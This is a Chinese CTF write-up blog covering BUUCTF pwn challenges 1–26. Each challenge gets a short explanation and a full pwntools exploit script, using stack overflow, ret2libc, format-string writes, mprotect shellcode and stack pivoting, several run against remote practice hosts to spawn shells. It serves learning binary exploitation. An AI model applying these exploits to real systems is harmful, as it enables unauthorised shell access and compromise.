






buuctf刷题记录（1-20题）
by Maple
有人说我的前面的题解没解析，看不懂？那我来补上了
1 test_nc
nc 节点 端口
没有nc？去看这篇！
然后cat flag
- cat:catch 抓住。就是显示文件中的内容
2 rip
打开ida看下源码
int __fastcall main(int argc, const char **argv, const char **envp)
{
char s[15]; // [rsp+1h] [rbp-Fh] BYREF
puts("please input");
gets(s, argv);
puts(s);
puts("ok,bye!!!");
return 0;
}
看到一个不限制输入长度的gets()函数，并且根据ida的分析，s位于栈底（rbp）上方0xF处,那么我们输入0xF字节之后再覆盖掉rbp，是不是就到了rbp下面的返回地址处？那么我们把后门函数的地址写在返回地址处，不就可以跳转到后门函数了嘛
为什么rbp下面是返回地址？罚你看这篇
exp:
from pwn import *
p = process('./pwn1')
p.sendline(b'a'*0xF+b'b'*0x8+p64(0x40118a))
p.interactive()
3 warmup_csaw_2016
和上一题是一样的，可以将v5和rbp覆盖，然后篡改返回地址
exp:
from pwn import *
#p = process('./pwn')
p = remote('node5.buuoj.cn',28694)
payload = b'a'*72+p64(0x40060d)
p.sendline(payload)
p.interactive()
在本地打了半天以为我有问题，最后想起来system执行的是cat flag，不会有shell
4 ciscn_2019_n_1
看下ida逆出来的代码

发现想要获取flag的内容，需要v2=11.28125,但是，我们一定要让if执行嘛，一定要合程序的意嘛，都打pwn了，怎么可以顺着程序的意来呢
所以有两种思路，一种是覆盖返回地址，一种是覆盖v2
- 覆盖返回地址，直接
return system处
exp:
from pwn import *
p = process('./pwn')
retaddr=0x4006BE
payload=b'a'*56+p64(retaddr)
p.sendline(payload)
p.interactive()
- 覆盖v2数值
可以看到我们的输入是在v2赋值之后的事，所以可以通过溢出来把v2的值给覆盖了，0x2c = 0x30-0x4
不知道为什么填充的是
0x4138000?学一下浮点数的存储叭，或者，按下tab，对准那个黄色的地方双击（如果不是这样子的话按下空格）
你就得到了11.28125的十六进制存储


exp：
from pwn import *
p = process('./pwn')
payload = b'a'*0x2c+p64(0x41348000)
p.sendline(payload)
p.interactive()
5 pwn1_sctf_2016
限制了32字节的读入，但是后面的操作会把I变为you，留4字节给esp，输入20个I就行
from pwn import *
p = process('./pwn')
payload = b'I'*20+b'a'*4+p32(0x8048F0D)
p.sendline(payload)
p.interactive()
这次学好了，先在本地创建了一个flag.txt的文件
6 jarvisoj_level0
ret2text不多说了(用了下自己的模板，有很多不需要)
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#libc = ELF("./libc.so.6")
p = process('./pwn')
#p = remote('',)
def dbg():
gdb.attach(p)
pause()
payload = b'a'*0x80+b'b'*0x8+p64(0x40059A)
p.sendline(payload)
p.interactive()
7 [第五空间2019 决赛]PWN5
有一个很好用的pwntools语法：
fmtstr_payload(number,{addr:value})
number表示偏移字节数，addr为你要写入的地址，value为你要更改为的数值
这里分析题目可以发现，我们在buf段溢出，然后覆盖dword_804C044，再输入相同的覆盖值就行
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#libc = ELF("./libc.so.6")
p = process('./pwn')
def dbg():
gdb.attach(p)
pause()
p.recvuntil('name:')
payload = fmtstr_payload(11,{0x804C044:0x1})
p.sendline(payload)
p.recvuntil('passwd:')
p.sendline("1")
p.interactive()
8 jarvisoj_level2
一个32位的题目，和64位有些区别，但不多
32位system（）利用栈传参，不用寄存器.
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#libc = ELF("./libc.so.6")
p = process('./pwn')
def dbg():
gdb.attach(p)
pause()
sys = 0x8048320 # system的地址
binsh = 0x804A024 #binsh的地址
payload = b'a'*0x88+b'b'*0x4+p32(sys)+p32(1)+p32(binsh)
#垃圾数据+覆盖返回地址(32位是4字节）+system地址调用+随意参数填充+binsh填充
p.sendline(payload)
p.interactive()
9 ciscn_2019_n_8
可以发现如果var[13]是17就getshell
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#libc = ELF("./libc.so.6")
p = process('./pwn')
def dbg():
gdb.attach(p)
pause()
payload = p32(17)*14
p.sendline(payload)
p.interactive()
10 bjdctf_2020_babystack
自定义输入长度，栈溢出
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#libc = ELF("./libc.so.6")
p = process('./pwn')
def dbg():
gdb.attach(p)
pause()
p.sendline(b'100')
payload = b'a'*0x10+b'b'*0x8+p64(0x4006EA)
p.sendline(payload)
p.interactive()
11 ciscn_2019_c_1
ret2libc，加密的地方可以溢出，可以在输入的地方输入一个'\0'绕开加密过程
from pwn import*
from LibcSearcher import*
p=remote('node5.buuoj.cn',26071)
#p = process('./pwn')
elf=ELF('./pwn')
main = 0x400B28
pop_rdi = 0x400c83
ret = 0x4006b9
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
p.sendlineafter('Input your choice!\n','1')
offset = 0x50+8
payload = b'\0'+b'a'*(offset-1)
payload+=p64(pop_rdi)
payload+=p64(puts_got)
payload+=p64(puts_plt)
payload+=p64(main)
p.sendlineafter('Input your Plaintext to be encrypted\n',payload)
p.recvline()
p.recvline()
puts_addr=u64(r.recvuntil('\n')[:-1].ljust(8,b'\0'))
print(hex(puts_addr))
libc = LibcSearcher('puts',puts_addr)
Offset = puts_addr - libc.dump('puts')
binsh = Offset+libc.dump('str_bin_sh')
system = Offset+libc.dump('system')
p.sendlineafter('Input your choice!\n','1')
payload = b'\0'+b'a'*(offset-1)
payload+=p64(ret)
payload+=p64(pop_rdi)
payload+=p64(binsh)
payload+=p64(system)
p.sendlineafter('Input your Plaintext to be encrypted\n',payload)
p.interactive()
12 jarvisoj_level2_x64
rdi传递binsh
又是本地打不通，远程可以打通，不理解
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#libc = ELF("./libc.so.6")
p = process('./pwn')
#p = remote('node5.buuoj.cn',28182)
def dbg():
gdb.attach(p)
pause()
pop_rdi = 0x00000000004006b3
binsh = 0x600A90
system = elf.plt['system']
ret = 0x00000000004004a1
p.recv()
payload = b'b'*0x80+b'b'*8+p64(pop_rdi)+p64(binsh)+p64(system)
p.sendline(payload)
p.interactive()
13 get_started_3dsctf_2016
-
通过mprotect()函数改内存为可读可写可执行
-
加入read函数
-
在read函数中构造shellcode
至于为什么是0x80EB000而不是bss段的开头0x80EBF80。
因为指定的内存区间必须包含整个内存页（4K），起始地址 start 必须是一个内存页的起始地址，并且区间长度 len 必须是页大小的整数倍。
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='i386',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#libc = ELF("./libc.so.6")
#p = process('./pwn')
p = remote('node5.buuoj.cn',25636)
def dbg():
gdb.attach(p)
pause()
pop_ret = 0x0804951D# 这里是一个有三个寄存器的pop_ret
mprotect_addr = elf.sym['mprotect']
mem_addr = 0x80EB000
mem_size = 0x1000
mem_proc = 0x7
read_addr = elf.sym['read']
# 调用mprotect函数
payload = b'a'*0x38
payload+=p32(mprotect_addr)
payload+=p32(pop_ret)
# 填充mprotect参数
payload+=p32(mem_addr)
payload+=p32(mem_size)
payload+=p32(mem_proc)
# 调用read函数
payload+=p32(read_addr)
payload+=p32(pop_ret)
# 填充read参数
payload+=p32(0)
payload+=p32(mem_addr)
payload+=p32(0x100)
# read返回后跳转到shellcode所在地址
payload+=p32(mem_addr)
p.sendline(payload)
payload2 = asm(shellcraft.sh())
p.sendline(payload2)
p.interactive()
int mprotect(void *addr, size_t len, int prot); (NX保护绕过)
- void *addr：目标内存区域的起始地址，必须按页对齐（对齐到系统页大小）
- **页**是操作系统管理内存的最小单位，大小通常为4KB(4096字节)或2MB(64位某些情况下的大页内存），页对齐是指内存地址必须是页大小的整数倍
- size_t len
- 要修改权限的内存区域长度，必须是页大小的整数倍
- int prot：权限标志位，通过位掩码组合
- PROT_READ(可读)
- PROT_WRITE(可写）
- PROT_EXEC(可执行)
- 返回值：
- 成功：返回
0 - 失败：返回
-1，并设置errno
14 [HarekazeCTF2019]baby_rop
ROP构造
from pwn import *
p = process('./pwn')
elf = ELF('./pwn')
system_addr = elf.sym['system']
binsh = 0x601048
pop_rdi = 0x400683
ret = 0x400479`0
payload = b'a'*0x10+b'b'*0x8+p64(pop_rdi)+p64(binsh)+p64(ret)+p64(system_addr)
p.sendline(payload)
p.interactive()
15 others_shellcode
我没看明白这题想干嘛，反正直接nc就getshell了，那就这样吧，似乎是直接进行了...
16 [OGeek2019]babyrop
感觉这题有些难度，稍微讲一下吧
checksec一下
❯ checksec pwn
[*] '/home/pwn/pwn/buuctf/16/pwn'
Arch: i386-32-little
RELRO: Full RELRO
Stack: No canary found
NX: NX enabled
PIE: No PIE (0x8048000)
可以看到没有canary保护
看一下主函数怎么说：
int __cdecl main()
{
int buf; // [esp+4h] [ebp-14h] BYREF
char v2; // [esp+Bh] [ebp-Dh]
int fd; // [esp+Ch] [ebp-Ch]
sub_80486BB();
fd = open("/dev/urandom", 0);
if ( fd > 0 )
read(fd, &buf, 4u);
v2 = sub_804871F(buf);
sub_80487D0(v2);
return 0;
}
在fd大于0的时候会读取数据，来到sub_804871F里看看
int __cdecl sub_804871F(int a1)
{
size_t v1; // eax
char s[32]; // [esp+Ch] [ebp-4Ch] BYREF
char buf[32]; // [esp+2Ch] [ebp-2Ch] BYREF
ssize_t v5; // [esp+4Ch] [ebp-Ch]
memset(s, 0, sizeof(s));
memset(buf, 0, sizeof(buf));
sprintf(s, "%ld", a1);
v5 = read(0, buf, 0x20u);
buf[v5 - 1] = 0;
v1 = strlen(buf);
if ( strncmp(buf, s, v1) )
exit(0);
write(1, "Correct\n", 8u);
return (unsigned __int8)buf[7];
}
可以发现在if (strncmp(buf, s, v1))函数这里，如果s和buf的长度不一样就会退出程序
但是这个函数本质上和strlen一样，在判断的字符串前加上\x00就直接跳过了，所以我们在输入的垃圾字符第一位加上\x00就行
可以看到函数会将buf这个char型数组的buf[7]传出来给v2，再传递给sub_80487D0(v2)
去sub_80487D0(v2)里看看
ssize_t __cdecl sub_80487D0(char a1)
{
char buf[231]; // [esp+11h] [ebp-E7h] BYREF
if ( a1 == 127 )
return read(0, buf, 0xC8u);
else
return read(0, buf, a1);
}
可以看到这个里面的read读取数据的大小取决于传入的a1(其实就是v2，也就是buf[7])
所以我们将buf[7]取到它的最大值（'\xff')，这个时候就可以通过溢出来构造ret2libc
ssize_t write(int fd, const void *buf, size_t count);
- fd:文件描述符，代表要写入的目标
- 0：标准输入（通常不用于写入）
- 1：标准输出（默认输出到终端）
- 2：标准错误（默认输出到终端）
- const void *buf:指向待写入数据的缓冲区指针
- size_t count:要写入的字节数（从
buf中读取的字节数） - 如果
count为0，不会写入数据，但仍会检查文件描述符的有效性 - 返回值:
- 成功：返回实际写入的字节数
- 失败：返回
-1，并设置error标识错误类型
from pwn import *
from LibcSearcher import *
context(log_level='debug')
libc=ELF('./libc-2.23.so') # 题目描述里有下载libc-2.23.so的网址
p=process('./pwn')
#p=remote('node5.buuoj.cn',27450)
elf=ELF('./pwn')
ret=0x08048502
payload='\x00'+'\xff'*7
p.sendline(payload)
write_plt=elf.plt["write"]
write_got=elf.got["write"]
main_addr=0x08048825
p.recvuntil("Correct\n")
payload1=b'a'*0xe7+b'a'*4+p32(write_plt)+p32(main_addr)+p32(1)+p32(write_got)+p32(8)
# 溢出+覆盖+根据plt调用+返回main地址+wirte第一个参数+wirte第二个参数+write第三个参数
p.sendline(payload1)
write_addr=u32(p.recv(4))
libc_base=write_addr-libc.sym['write']
log.info("libc_base:"+hex(libc_base))
bin_sh_addr=libc_base+next(libc.search(b'bin/sh'))
system_addr=libc_base+libc.sym['system']
p.sendline(payload)
p.recvuntil("Correct\n")
payload2=b'a'*0xe7+b'a'*4+p32(system_addr)+p32(0)+p32(bin_sh_addr)
p.sendline(payload2)
p.interactive()
17 ciscn_2019_n_5
有两种做法，第一种应该是题目的原意，但是我的ubuntu版本比较高，出现了一些问题，就直接当作ret2libc来写了
第一种：
因为第一次输入name的地方很大并且可执行，所以写入shellcode，然后跳转到name的地址就好
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#libc = ELF("./libc.so.6")
#p = process('./pwn')
p = remote('node5.buuoj.cn',25442)
def dbg():
gdb.attach(p)
pause()
shellcode = asm(shellcraft.sh())
p.recvuntil(b'name\n')
p.sendline(shellcode)
p.recvuntil('me?\n')
payload = b'a'*0x20+b'a'*0x8+p64(0x601080)
p.sendline(payload)
p.interactive()
第二种：
直接当作ret2libc来写，第二次的时候可以先把/bin/sh写入name中，然后调用name里的，记得先ret对齐一下
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#p = process('./pwn')
p = remote('node5.buuoj.cn',25442)
def dbg():
gdb.attach(p)
pause()
puts_got = elf.got['puts']
puts_plt=elf.plt['puts']
main = elf.sym['main']
pop_rdi = 0x400713
ret = 0x00000000004004c9
p.recvuntil('name\n')
p.sendline(b'a')
p.recvuntil('me?\n')
payload = b'a'*0x20+b'b'*0x8+p64(pop_rdi)+p64(puts_got)+p64(puts_plt)+p64(main)
p.sendline(payload)
puts_addr = u64(p.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))
libc = LibcSearcher('puts',puts_addr)
libc_base = puts_addr-libc.dump('puts')
log.info("libc_base:"+hex(libc_base))
system = libc_base+libc.dump('system')
p.sendafter(b'name\n', b'/bin/sh\x00')
payload =b'a'*(0x20 +8) +p64(ret) +p64(pop_rdi) +p64(0x601080) +p64(system)
p.sendlineafter(b'me?\n',payload)
p.interactive()
LibcSearcher选择第6个
18 not_the_same_3dsctf_2016
ida里面可以看到，在main函数上面的get_secret函数将flag.txt里的内容读入到了bss段，那么可以用write函数将其打印出来
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#libc = ELF("./libc.so.6")
#p = process('./pwn')
p = remote('node5.buuoj.cn',27329)
def dbg():
gdb.attach(p)
pause()
write_addr = elf.sym['write']
flag = 0x80ECA2D
payload = b'a'*45+p32(0x80489A0)+p32(write_addr)+p32(0)+p32(1)+p32(flag)+p32(42)
# 填充+读取flag函数跳转+write函数调用+write返回后的地址+fd参数+flag地址+输出字节数
p.sendline(payload)
p.interactive()
19 ciscn_2019_en_2
ret2libc,没啥好说的，跟之前有一题很像
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#libc = ELF("./libc.so.6")
#p = process('./pwn')
p = remote('node5.buuoj.cn',29048)
def dbg():
gdb.attach(p)
pause()
pop_rdi = 0x0000000000400c83
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
ret = 0x4006b9
main = elf.sym['main']
p.recvuntil(b'choice!\n')
p.sendline(b'1')
p.recvuntil(b'encrypted\n')
payload = b'\x00'+b'a'*0x57+p64(pop_rdi)+p64(puts_got)+p64(puts_plt)+p64(main)
p.sendline(payload)
puts_addr = u64(p.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))
libc = LibcSearcher('puts',puts_addr)
libc_base = puts_addr-libc.dump('puts')
log.info("libc_base:"+hex(libc_base))
sys = libc_base+libc.dump('system')
binsh = libc_base+libc.dump('str_bin_sh')
p.recvuntil(b'choice!\n')
p.sendline(b'1')
p.recvuntil(b'encrypted\n')
payload = b'\x00'+b'a'*0x57+p64(ret)+p64(pop_rdi)+p64(binsh)+p64(sys)
p.sendline(payload)
p.interactive()
20 ciscn_2019_ne_5
这个题目挺有意思的
ida里看到4那个选项对应的就是GetFlag(),里面说我们输入的log就是flag，那么我们应该先选一输入system(/bin/sh),但是没找到/bin/sh，
system(sh)也是可以的
这份exp是直接截断了fflush，也可以用ROPgadget --binary pwn --string "sh"来查查，确实有一个(似乎就是这一个)
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#libc = ELF("./libc.so.6")
p = process('./pwn')
def dbg():
gdb.attach(p)
pause()
binsh = 0x80482E6+4 #0x80482E6是字符串fflush，这里对它做了一个截断，留下了sh
sys_addr = 0x80484D0
p.sendlineafter(b'password:',b'administrator')
p.recvuntil(b':')
p.sendline(b'1')
payload = b'a'*0x48+b'b'*0x4+p32(sys_addr)+b'a'*4+p32(binsh)
p.recvuntil(b'info:')
p.sendline(payload)
p.recvuntil(b':')
p.sendline(b'4')
p.interactive()
buuctf刷题记录（21-40题）
by Maple
21_铁人三项（第五赛区) _2018_rop
ret2libc
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#libc = ELF("./libc.so.6")
#p = process('./pwn')
p = remote('node5.buuoj.cn',27252)
def dbg():
gdb.attach(p)
pause()
write_got = elf.got['write']
write_plt = elf.plt['write']
main = elf.sym['main']
payload = b'a'*0x88+b'b'*4+p32(write_plt)+p32(main)+p32(1)+p32(write_got)+p32(4)
p.sendline(payload)
write_addr = u32(p.recv(4))
libc = LibcSearcher('write',write_addr)
libc_base = write_addr-libc.dump('write')
log.info("libc_base:"+hex(libc_base))
sys = libc_base+libc.dump('system')
binsh = libc_base+libc.dump('str_bin_sh')
payload2 = b'a'*0x88+b'b'*4+p32(sys)+p32(0)+p32(binsh)
p.sendline(payload2)
p.interactive()
22 bjdctf_2020_babystack2
看源码，发现输入长度是int型，而read读取的长度为unsigned int型，所以输入-1就可以了
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#libc = ELF("./libc.so.6")
#p = process('./pwn')
p = remote('node5.buuoj.cn',27683)
def dbg():
gdb.attach(p)
pause()
p.sendline('-1')
p.recvuntil(b'name?\n')
payload = b'a'*0x10+b'b'*0x8+p64(0x400726)
p.sendline(payload)
p.interactive()
23 bjdctf_2020_babyrop
ret2libc
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#libc = ELF("./libc.so.6")
#p = process('./pwn')
p = remote('node5.buuoj.cn',26423)
def dbg():
gdb.attach(p)
pause()
puts_plt=elf.plt['puts']
puts_got=elf.got['puts']
main=elf.sym['main']
pop_rdi = 0x400733
p.recvuntil(b'story!\n')
payload = b'a'*0x20+b'b'*0x8+p64(pop_rdi)+p64(puts_got)+p64(puts_plt)+p64(main)
p.sendline(payload)
puts_addr = u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
libc = LibcSearcher('puts',puts_addr)
libc_base = puts_addr-libc.dump('puts')
p.recvuntil(b'story!\n')
sys = libc_base+libc.dump('system')
binsh = libc_base+libc.dump('str_bin_sh')
payload2 = b'a'*0x20+b'b'*0x8+p64(pop_rdi)+p64(binsh)+p64(sys)+p64(main)
p.sendline(payload2)
p.interactive()
24 jarviso_fm
看名字就知道是格式化字符串，x==4的时候就可以getshell
直接找到x的地址，用自带函数就行
from pwn import *
p = process('./pwn')
payload = fmtstr_payload(11,{0x804a02c:0x4})
p.sendline(payload)
p.interactive()
25 jatviso_tell_me_something
这道题有一点小坑,一般都是将ebp压入栈，然后将esp的值赋值给ebp，然后esp减去对应的栈空间的大小
push ebp
mov ebp, esp
sub esp, 18h
但是这道题直接将rsp减去0x88，这里并没有把rbp压入栈，所以只需要0x88大小就可以覆盖返回地址了
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#libc = ELF("./libc.so.6")
#p = process('./pwn')
p = remote('node5.buuoj.cn',28402)
def dbg():
gdb.attach(p)
pause()
payload = b'a'*0x88+p64(0x400620)
p.recvuntil(':')
p.sendline(payload)
p.interactive()
26 ciscn_2019_es_2
发现溢出只有八字节，需要栈迁移
我觉得这位师傅讲的不错，ciscn_2019_es_2
from pwn import *
context.terminal = ['terminator','-x','sh','-c']
context.log_level='debug'
p=remote('node5.buuoj.cn',25052)
#p=process("./pwn")
elf = ELF('./pwn')
sys_addr=elf.sym['system']
leave_ret=0x080484b8
p.recvuntil("name?\n")
payload1= 0x20*"a"+"b"*0x8
p.send(payload1)
p.recvuntil("b"*0x8)
ebp_addr=u32(p.recv(4))
log.info('ebp:'+hex(ebp_addr))
payload2 = (b"aaaa"+p32(sys_addr)+b'aaaa'+p32(ebp_addr-0x28)+b'/bin/sh').ljust(0x28,b'\x00')+p32(ebp_addr-0x38) + p32(leave_ret)
p.send(payload2)
p.interactive()
栈迁移
vul函数看一下
int vul()
{
char s[40]; // [esp+0h] [ebp-28h] BYREF
memset(s, 0, 0x20u);
read(0, s, 0x30u);
printf("Hello, %s\n", s);
read(0, s, 0x30u);
return printf("Hello, %s\n", s);
}
可以看到read大小为0x30，但是s变量和ebp的距离是0x28。八字节的溢出只够覆盖ebp和ret，不可以做到直接修改hack函数里system的参数。所以我们利用leave_ret挟持esp进行栈迁移
若无限制，构造的栈长这样：
| /bin/sh | |
|---|---|
| /bin/sh_addr | |
| 0xdeadbeef | |
| return | system_addr |
| ebp | aaaa |
| s | 垃圾数据 |
| esp |
但是有限制，所以通过leave转移到别处，因此将ebp的内容改为s的地址，return改为leave的地址
执行两次leave之后栈的样子
| return | leave_ret_addr |
|---|---|
| ebp | s_addr |
| esp | |
| s | 垃圾数据 |
一般leave命令后面都会跟着ret命令，也是必须要有的。此处如果继续执行ret命令就会返回到esp所指向内容填写的地址，那么接下来就很好办了，我们构造栈的内容
